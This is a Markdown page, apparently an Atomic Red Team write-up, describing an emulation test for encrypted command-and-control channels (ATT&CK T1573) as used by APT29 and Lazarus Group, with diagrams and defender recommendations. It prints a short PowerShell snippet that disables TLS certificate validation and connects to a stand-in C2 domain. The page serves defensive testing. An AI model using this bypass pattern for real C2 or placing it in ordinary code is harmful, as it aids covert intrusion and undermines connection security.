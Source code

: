 # Atomic Red Team Tests for APT29 and Lazarus Group - T1573 Encrypted Channel

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1573)
<blockquote>
Adversaries may employ a known encryption algorithm to conceal command and control traffic rather than relying on any inherent protections provided by a communication protocol. Despite the use of a secure algorithm, these implementations may be vulnerable to reverse engineering if secret keys are encoded and/or generated within malware samples/configuration files.
</blockquote>

### Attack Technique Overview
Encrypted Channel techniques involve adversaries using encryption to conceal their command and control communications. Both APT29 (Russian state-sponsored) and Lazarus Group (North Korean state-sponsored) extensively use encrypted channels to evade detection, blend with legitimate traffic, and protect their communications from interception and analysis.

```mermaid
flowchart TD
    subgraph AdversaryInfrastructure [Adversary-Controlled Infrastructure]
        direction LR
        A1[APT29 C2 Servers]
        A2[Lazarus C2 Servers]
        A1 -- SSL/TLS --> C1[Encrypted Channels]
        A2 -- Custom Encryption --> C1
    end

    subgraph EncryptionMethods [Encryption Techniques]
        direction TB
        M1[SSL/TLS Encryption]
        M2[Custom Application Encryption]
        M3[Protocol Tunneling]
        M4[Certificate Abuse]
    end

    subgraph TargetSystems [Victim Environment]
        V1[Windows Systems]
        V2[Linux Systems]
        V3[Network Infrastructure]
    end

    AdversaryInfrastructure -->|Uses| EncryptionMethods
    EncryptionMethods -->|Protects communications with| TargetSystems
    
    M1 --> V1 & V2 & V3
    M2 --> V1 & V2
    M3 --> V3
    M4 --> V1 & V2

    classDef apt29 fill:#ffcccc,stroke:#ff0000,stroke-width:2px
    classDef lazarus fill:#ccffcc,stroke:#006600,stroke-width:2px
    classDef both fill:#ffcc99,stroke:#ff9900,stroke-width:2px

    class A1,M1,M4 apt29
    class A2,M2 lazarus
    class M3 both
```

## Atomic Test Analysis

### Atomic Test #1 - OpenSSL C2
**Technique:** SSL/TLS Encrypted Command and Control  
**Adversary Usage:** APT29 & Lazarus Group  
**Command:**
```powershell
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fakedomain.example', $null, "Tls12", $false)
```

```mermaid
flowchart TD
    Start[Atomic Test #1: OpenSSL C2] --> Execute["Execute: PowerShell SslStream creation with certificate validation bypass"]

    Execute --> Breakdown[Command Breakdown]
    
    subgraph Breakdown [SslStream components]
        P1[New-Object] --> C1[System.Net.Security.SslStream]
        C1 --> P2["$stream: Underlying network stream"]
        C1 --> P3["$false: LeaveInnerStreamOpen parameter"]
        C1 --> P4["Certificate validation callback<br>that always returns $true"]
        C1 --> M1[AuthenticateAsClient method]
        M1 --> P5["'fakedomain.example': Target hostname"]
        M1 --> P6["$null: Client certificates"]
        M1 --> P7["'Tls12': SSL/TLS version"]
        M1 --> P8["$false: Check certificate revocation"]
    end
    
    Breakdown --> CreateStream[Creates encrypted SSL stream]
    CreateStream --> BypassValidation[Bypasses certificate validation]
    BypassValidation --> EstablishConnection[Establishes encrypted connection]
    EstablishConnection --> Success[Encrypted Channel Established]
```

**Command Explanation:**
```powershell
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fakedomain.example', $null, "Tls12", $false)
```
- **System.Net.Security.SslStream**: .NET class for SSL/TLS encrypted communications
- **Certificate validation callback**: `{$True}` bypasses all certificate validation (critical evasion technique)
- **AuthenticateAsClient**: Method to authenticate as client to server
- **'fakedomain.example'**: Example C2 domain (would be real domain in attacks)
- **'Tls12'**: Specifies TLS 1.2 encryption protocol
- **$false**: Disables certificate revocation checking

Both APT29 and Lazarus Group use SSL/TLS encryption for their command and control channels. This test demonstrates establishing an encrypted C2 session while bypassing certificate validation, which both groups have employed in various campaigns to evade network detection and analysis.

**APT29 Correlation:** APT29 has used encrypted channels extensively in their operations, including during the SolarWinds campaign where they employed various encryption methods for covert communications.
**Lazarus Correlation:** Lazarus Group frequently uses encrypted C2 channels in their financial attacks and destructive operations to maintain stealthy communications.

#### Dependencies: Run with `powershell`!
##### Description: PowerShell must be available
##### Check Prereq Commands:
```powershell
if ($PSVersionTable.PSVersion.Major -ge 3) { exit 0 } else { exit 1 }
```

## Correlation with APT29 & Lazarus Tradecraft

### APT29 Focus:
* **Sophisticated Encryption**: Uses advanced cryptographic techniques for C2 communications
* **Covert Operations**: Employs encrypted channels for long-term espionage activities
* **Protocol Imitation**: Blends encrypted C2 traffic with legitimate network protocols
* **SolarWinds Campaign**: Extensive use of encrypted channels for maintaining access

### Lazarus Group Focus:
* **Financial Operations**: Uses encryption for C2 in banking and cryptocurrency attacks
* **Destructive Attacks**: Employs encrypted communications in wiper malware operations
* **Rapid Communications**: Uses efficient encryption methods for quick C2 exchanges
* **Operation Dream Job**: Employed encrypted channels for maintaining access to compromised systems

### Common Tactical Objectives:
1. **Command and Control**: Maintain covert communications with compromised systems
2. **Defense Evasion**: Avoid detection by encrypting malicious network traffic
3. **Persistence**: Sustain long-term access through stealthy communications
4. **Exfiltration**: Securely transfer stolen data from victim environments

## Defender Recommendations

Based on this test, defenders should:

1. **Monitor for certificate validation anomalies** - Processes that disable certificate validation or bypass checks
2. **Implement SSL/TLS inspection** where appropriate and legally permissible
3. **Monitor for unusual SSL/TLS connections** - Especially to newly-registered or suspicious domains
4. **Establish network baselines** to detect unusual encrypted traffic patterns
5. **Use behavioral detection** for processes making encrypted connections unexpectedly

## Campaign References

1. **APT29 SolarWinds Campaign** (2020): Used encrypted channels for C2 communications throughout the compromise
2. **APT29 Various Operations**: Consistently employs encrypted communications for covert espionage
3. **Lazarus Financial Attacks**: Uses encrypted C2 channels in banking and cryptocurrency theft operations
4. **Lazarus Destructive Attacks**: Employs encrypted communications in wiper malware campaigns

## Academic References

1. MITRE ATT&CK Technique T1573 - Encrypted Channel
2. Microsoft: "NOBELIUM targeting IT supply chain" (2021)
3. US-CERT: "Hidden Cobra - North Korean Malicious Cyber Activity" (Lazarus Group)
4. CrowdStrike: "APT29 Tradecraft and Techniques" (2023)
5. FireEye: "APT29 Domain Fronting With TOR" (2017)